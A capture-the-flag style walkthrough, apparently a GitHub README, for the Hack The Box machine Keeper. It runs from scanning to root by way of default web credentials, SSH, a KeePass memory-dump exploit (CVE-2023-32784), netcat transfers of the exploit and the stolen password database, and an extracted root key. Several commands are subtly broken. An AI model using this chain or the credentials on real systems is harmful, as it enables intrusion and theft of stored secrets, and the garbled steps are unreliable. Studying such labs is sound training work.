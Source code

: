 # Unlocking the Secrets of Keeper: A Journey to Root Access

<p align="center">
  <img src="https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/274cad23-f3e3-4ac9-b9a0-b2b6539d214e" align="center" alt="keeper-htb" />
</p>


## Introduction

In the exhilarating realm of ethical hacking, each machine encountered on platforms like Hack The Box presents fresh challenges and captivating discoveries. Keeper, an enigmatic HTB machine, follows suit. This guide will lead you through a systematic journey to conquer Keeper, navigating from the initial foothold to securing the coveted root flag. So, equip your virtual backpack, don your ethical hacker hat, and let's plunge into the adventure!

## Step 1: Setting the Stage

The first step is to identify the machine's IP address. We'll use this address to create a handy host entry for easy access.


```bash
echo "ip tickets.keeper.htb" | sudo tee -a /etc/hosts
```

## Step 2: Reconnaissance with Nmap
Now that we're properly set up, it's time to scan for open ports. We'll start with a basic scan to identify ports 22 (SSH) and 80 (HTTP).

```bash
nmap -p 22,80 tickets.keeper.htb/ipaddressofmachine
```

## Step 3: Exploring the Web
Access the machine's IP address in your browser and observe the redirection to the login page. It's time to play detective and try some random credentials. Miraculously, we're in!

```
Username: root
Password: password
```

## Step 4: The Admin Panel
Navigate to the admin section and prepare to uncover a user's password.

## Step 5: SSH Connection
Connect via SSH using the provided credentials:

```bash

ssh lnorgaard@tickets.keeper.htb Password: Welcome2023!
```

## Step 6: User Flag
With SSH access in hand, locate the user flag:

```bash

ls cat user.txt
```

## Step 7: The CVE and Keepass
Discover a critical CVE and grab the exploit from the following link: [CVE-2023-32784(poc.py)](10.10.11.227/poc.py). Download it to your local machine.

## Step 8: Moving Files
To transfer files between your local machine and the HTB machine, you can use netcat. Run the following commands:

## On the HTB machine:

```bash
nc -nlvp 1234 > poc.py
```

## On your local machine:

```bash
nc [keeperip] 1234 < poc.py
```

Verify the file transfer with ls and cat poc.py.

## Step 9: Exploiting Keepass
Execute the exploit on the HTB machine:


```bash
python3 poc.py -d KeePassDumpFull.dmp
```

_Retrieve the password: rødgrød med fløde_

## Step 10: Using Keepass
Back on your local machine, install Keepass2 with:

```bash

apt install keepass2
```

## Step 11: Unveiling the Secrets
On the HTB machine, locate passcodes.kdbx. Transfer it to your local machine using netcat.

## On your local machine:

```bash
nc -nlvp 1234 > passcodes.kdbx
```
After a brief wait, __press Ctrl+C__.

## Step 12: Keepass Unlocked
Open Keepass2, select "Open File," and choose passcodes.kdbx. Enter the password you found (rødgrød med fløde). Inside, you'll discover user and root credentials.

## Step 13: Root Access
Access the root SSH key, copy it, and save it as root.ppk. Use Puttygen to convert the key:

```bash
puttygen root.ppk -O private-openssh -o id_rsa
```
Finally, SSH into Keeper with root privileges:

```bash
ssh root@tickets.keeper.htb -i id_rsa
```
Discover the root flag:

```bash
ls cat root.txt
```

<hr><ht/>

  # CVE-2023-32784 
  ___KeePass2 Master Password Dumper (CVE-2023-32784)___

  This is a [CVE-2023-32784](https://nvd.nist.gov/vuln/detail/cve-2023-32784) proof-of-concept implemented in Rust. The code is probably ugly due to my poor coding skills, feel free to make a PR to improve it.


  CVE-Credit:vdohney
<hr><ht/>


 <p align="center">
  <img src="https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/2f2ae09a-71f7-4895-b5eb-4008a5e7d69e" align="center" alt="keeper-htb" />
</p>
  
# Conclusion:ss
Our experience in conquering the Keeper HTB machine was not only exciting but also educational. We trust that this guide has illuminated the path of ethical hacking, spanning from the initial reconnaissance phase to achieving root access. Always bear in mind that ethical hacking is a journey of learning, self-challenge, and continuous enhancement of your cybersecurity skills. Happy hacking!


